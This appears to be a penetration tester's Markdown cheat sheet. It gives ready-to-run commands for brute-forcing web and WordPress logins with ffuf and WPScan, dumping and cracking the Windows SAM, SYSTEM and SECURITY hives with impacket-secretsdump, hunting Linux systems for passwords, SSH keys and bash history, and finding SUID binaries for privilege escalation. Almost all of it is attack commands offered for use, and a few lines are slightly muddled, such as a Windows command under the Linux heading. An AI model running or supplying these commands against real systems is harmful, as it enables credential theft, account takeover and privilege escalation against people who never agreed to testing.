 ## FFUF
```
On burpsuite, save an http request to a file called req.txt, you can do this through repeater or just through the http history. Then on the "password=" parameter on the request body, replace the input with the string "FUZZ".

Now run the following command and you should be able to bruteforce the password of a user:
ffuf -request req.txt --request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt

NOTE: You might have to filter the results. Just run the usual FFUF filter tags.
```

## WPScan Bruteforce
Run the following to bruteforce the login with a user and pass list:
```
wpscan -U users.txt -P /home/kali/loot/pass.txt --url http://target_ip:80/wordpress_directory_just_replace_this/
```

## Cracking SAM locally with impacket-secretsdump
```
reg save hklm\sam sam.txt
reg save hklm\system system.txt
reg save hklm\security security.txt
# Now transfer these files to your kali machine
impacket-secretsdump -sam sam.txt -security security.txt -system system.txt LOCAL
```

# Local Enumeration for Privesc
## Linux
### Linux Password Mining
```
Look for passwords:
findstr /si password *.doc *.txt *.ini *.config
find / -name authorized_keys 2> /dev/null find / -name id_rsa 2> /dev/null
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
grep --color=auto -rnw '/home/user' -ie "PASS" --color=always 2> /dev/null
find /etc -type f -exec grep -i -I "PASS" {} /dev/null \;
find /home/user -type f -exec grep -i -I "PASS" {} /dev/null \;

Check history:
cat /home/user/.bash_history | grep "pass"
cat ~/.bash_history | grep -i passw
su root
history

Find SSH keys:
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null

Find config files:
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```
### System Enumeration
```
#For SUID GTFOBins exploits/privesc
find / -perm -u=s -type f 2>/dev/null
```